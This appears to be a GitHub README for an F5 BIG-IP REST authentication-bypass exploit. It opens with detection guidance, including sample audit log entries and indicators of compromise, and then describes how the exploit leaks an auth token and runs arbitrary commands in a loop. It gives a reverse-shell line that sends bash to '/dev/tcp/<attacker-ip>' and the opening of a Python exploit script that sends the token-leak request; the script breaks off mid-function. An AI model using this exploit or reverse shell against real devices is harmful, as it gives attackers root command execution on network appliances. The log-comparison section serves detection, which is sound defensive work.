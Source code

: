 *Note: Under limited ordinary circumstances, it is possible that log entries containing the text X-F5-Auth-Token doesn't have value may appear in /var/log/restjavad.\*.log.*

When you see the **X-F5-Auth-Token doesn't have value** message, you can compare any logs found in */var/log/restjavad.\*.log* with those found in */var/log/audit* and */var/log/restjavad-audit.\*.log* that share approximately the same timestamp.

Use this comparison to determine the intent and potential impact of these logs. For example, you may see the following entries in these logs:

**Entry in '/var/log/audit'**

```
Mar 23 00:58:30 hostname notice icrd_child[13385]: 01420002:5: AUDIT - pid=13385 user=admin folder=/Common module=(tmos)# status=[Command OK] cmd_data=run util bash -c id 
```
Entry in '**/var/log/restjavad-audit.0.log**'

```
[I][2348][23 Mar 2021 08:58:30 UTC][ForwarderPassThroughWorker] {"user":"local/admin","method":"POST","uri":"http://localhost:8100/mgmt/tm/util/bash","status":200,"from":"nnn.nnn.nnn.nnn"}
```

If the logs display any entries, this may indicate that a REST request with empty **X-F5-Auth-Token** value from IP address **nnn.nnn.nnn.nnn** invokes command **run util bash -c id**. You must closely examine the source IP addresses in any */var/log/restjavad-audit.\*.log* and */var/log/audit\** entries and compare them to IP addresses you know make legitimate REST calls against the device.

Other indicators of compromise may include unexpected modifications to any files, configurations, or running processes.

## Metasploit

The metasploit for this specific vulnerability, first attempts to leak an authentication token from the target system by sending a POST request to the */mgmt/shared/authn/login* endpoint. If the response does not contain a token, the function tries a second method by sending a POST request to the */mgmt/tm/util/bash* endpoint with a different set of headers and data.

If the initial attempt to leak the token is successful, the metasploit extracts the token from the response and enters an infinite loop, allowing the user to continuously input commands to be executed on the target system. In this loop, the metasploit sends a POST request to the */mgmt/tm/util/bash* endpoint with the leaked token in the headers and the user-inputted command in the data. If the response contains 'commandResult', the metasploit prints the result of the command. If not, it prints an error message and exits.

If the second method is successful and the response contains 'commandResult', the metasploit enters an infinite loop, similar to the one in the first method.

An attacker could provide a command such as `bash -i >& /dev/tcp/<attacker-ip>/<port> 0>&1` to open a reverse shell on the target system with root access.

### Examples:

```python
import requests
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
import sys

def metasploit(url, command):
	#print('(*) Tested: %s'%(url))
	vuln_leak_token = url + '/mgmt/shared/authn/login'
	data_leak_token = {"bigipAuthCookie":"","username":"admin","loginReference":{"link":"/shared/gossip"},"userReference":{"link":"https://localhost/mgmt/shared/authz/users/admin"}}
	try_leak = requests.post(vuln_leak_token, headers={"User-Agent": "hello-world","Content-Type":"application/x-www-form-urlencoded"}, json=data_leak_token, verify=False, timeout=15)
	if "/mgmt/shared/authz/tokens/" not in try_leak.text:
		print('(-) Cant leak token!!!')
		print('(*) Tested Method 2') #im not sure about that...
```